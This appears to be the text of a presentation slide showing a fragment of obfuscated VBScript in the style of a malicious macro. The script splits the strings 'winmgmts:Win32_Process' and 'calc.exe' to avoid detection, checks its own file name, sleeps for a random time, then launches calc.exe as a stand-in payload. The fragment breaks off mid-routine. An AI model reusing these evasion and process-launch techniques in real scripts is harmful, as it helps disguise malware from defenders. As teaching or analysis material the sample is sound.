

# ERa() - F_RUN - if testing…
Set setupService = GetObject("winmg" + "mts:Win32_Pro" + "cess")
	If (InStr(WScript.ScriptName, cStr(82984)) > 0 And ucMHV = 0) Then
    	tawny
    	With WScript
        	.Sleep Int((chivalrous-pbI+1)*Rnd+pbI)
    	End With
    	desperate = "ca" + "lc.e" + "xe"
    	setupService.create desperate
    	GewqX("DEBUG: F_RUN_T - True")